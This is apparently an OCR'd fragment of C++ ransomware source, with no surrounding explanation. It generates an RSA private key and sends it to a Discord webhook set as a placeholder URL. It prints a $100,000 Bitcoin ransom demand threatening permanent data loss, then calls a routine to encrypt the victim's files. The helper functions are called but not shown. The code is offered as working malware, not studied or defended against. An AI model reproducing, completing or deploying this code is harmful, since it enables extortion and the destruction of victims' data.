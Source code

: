 ```cpp

    BIO* privateBIO = BIO_new(BIO_s_mem());

    if (PEM_write_bio_RSAPrivateKey(privateBIO, rsa, nullptr, nullptr, 0, nullptr, nullptr) != 1) {

        std::cerr << "Failed to write private key." << std::endl;

        RSA_free(rsa);

        return 1;

    }

    BUF_MEM* privateBuf;

    BIO_get_mem_ptr(privateBIO, &privateBuf);



    // Send private key to Discord webhook

    std::string privateKey(privateBuf->data, privateBuf->length);

    std::string discordWebhookUrl = "YOUR_DISCORD_WEBHOOK_URL_HERE";

    std::string message = "Attention! Your files have been encrypted. Pay $100,000 to the provided Bitcoin address to get the decryption key. Failure to comply will result in permanent data loss.";

    std::string encryptedKey = encryptWithWebhookKey(privateKey, discordWebhookUrl);

    sendToWebhook(message, encryptedKey, discordWebhookUrl);



    // Display ransom warning

    std::cout << "Your files have been encrypted. Pay $100,000 to the provided Bitcoin address to get the decryption key. Failure to comply will result in permanent data loss." << std::endl;



    // Encrypt victim's files

    encryptFiles();



    return 0;

}

```
